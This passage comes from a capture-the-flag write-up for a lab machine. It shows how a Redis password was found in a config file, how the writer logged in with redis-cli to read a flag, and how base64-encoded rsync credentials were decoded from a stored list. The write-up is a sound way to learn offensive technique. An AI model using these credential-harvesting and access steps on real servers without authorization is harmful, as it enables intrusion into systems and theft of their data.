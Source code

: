 ```
    └── wildmidi.cfg

7 directories, 12 files
```

here we got a `redis.conf` file inside of `redis` directory. which may contain any credentials. let's see what's inside.

and yeah!, we found a password in there.
```bash
requirepass "xxxxxxxxxxxxx"
```
As now, we have the credentials let's check what's inside the database.
```bash
[elliot@archlinux]  vulnnet_internal git:(main) ✗ redis-cli -h 10.10.73.192 -p 6379 -a '<password>'
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.10.73.192:6379> KEYS *
1) "authlist"
2) "marketlist"
3) "tmp"
4) "int"
5) "internal flag"
10.10.73.192:6379> GET "internal flag"
"THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxx}"
```

#### Internal Flag
```
THM{xxxxxxxxxxxxxxxxxxxxxxxxxxxxx}
```

and here we got the internal flag as well. we also have an interesting database named `authlist`, let's check what's inside.

```bash
10.10.73.192:6379> GET "authlist"
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.73.192:6379> type "authlist"
list
10.10.73.192:6379> lrange authlist 1 100
1) "QXV0aG9yaXphdGlvbiBmbxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmbxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmbxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxY3QFRXQEJjNzJ2Cg=="
10.10.73.192:6379>
```

looks like the entries are encoded in base64, let's decode and see what's it.
```bash
[elliot@archlinux]  vulnnet_internal git:(main) ✗ echo 'QXV0aG9yaXphdGlvbixxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxUDY3QFRXQEJjNzJ2Cg==' | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password <confidential :)>
```

## Rsync Enumeration (873)
